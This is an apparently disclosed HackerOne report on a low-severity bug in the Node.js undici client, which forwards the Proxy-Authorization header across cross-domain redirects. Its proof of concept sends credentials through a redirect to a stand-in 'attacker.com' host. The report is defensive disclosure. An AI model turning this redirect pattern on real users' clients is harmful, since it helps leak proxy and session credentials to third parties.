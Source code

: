 # Proxy-Authorization header is not cleared in cross-domain redirect in undici

## Report Details
- **Report ID**: 2390009
- **URL**: https://hackerone.com/reports/2390009
- **State**: Closed
- **Severity**: low
- **Submitted**: 2024-02-26T05:59:27.230Z
- **Disclosed**: 2024-03-12T02:20:16.025Z

## Reporter
- **Username**: timon8
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
I read this security advisory https://github.com/nodejs/undici/security/advisories/GHSA-wqq4-5wpv-mx2g.
It only clears authorization and cookie header during cross-domain redirect .
{F3080120}


As such this may lead to accidental leakage of "Proxy-Authorization" to a 3rd-party site.
```nodejs
import { request } from 'undici'
const {
    statusCode,
    headers,
    body
} = await request('http://anysite.com/redirect.php?url=http://attacker.com:8182/vvv',{
    maxRedirections: 3,
    headers: {
        "autHorization": 'tes123t',
        "coOkie": "ddd=dddd",
        "X-CSRF-Token": 't5k3zni6fbdqbnce58zbkh7c4o',
        'Proxy-Authorization':'xxxxxxxx'
    }})

console.log('response received', statusCode)
console.log('headers', headers)

for await (const data of body) {
    console.log('data', data)
}
```
{F3080121}

You can refer to this python code.
https://github.com/psf/requests/blob/main/src/requests/sessions.py#L318
References
https://github.com/psf/requests/issues/1885
https://fetch.spec.whatwg.org/#authentication-entries
Impact
undici v6.5.0

## Impact

<= v5.28.2, >= v6.0.0 <= v6.6.0

## Attachments
- image.png
- image.png
